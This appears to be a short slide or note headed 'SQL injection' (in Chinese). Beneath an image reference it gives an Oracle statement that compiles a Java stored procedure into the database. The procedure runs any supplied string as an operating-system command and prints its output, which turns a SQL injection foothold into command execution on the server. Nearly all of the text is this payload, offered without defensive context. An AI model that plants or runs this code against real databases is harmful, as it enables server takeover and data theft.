

# SQL注入
create or replace and compile java source named "Execute" as
import java.io.BufferedReader;
import java.io.InputStreamReader;
public class Execute {
    public static void executeCmd(String c) {
        try {
            String l="",t;
            BufferedReader br = new BufferedReader(new InputStreamReader(java.lang.Runtime.getRuntime().exec(c).getInputStream(),"gbk"));
            while((t=br.readLine())!=null){
                l+=t+"\n";
            }
            System.out.println(l);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}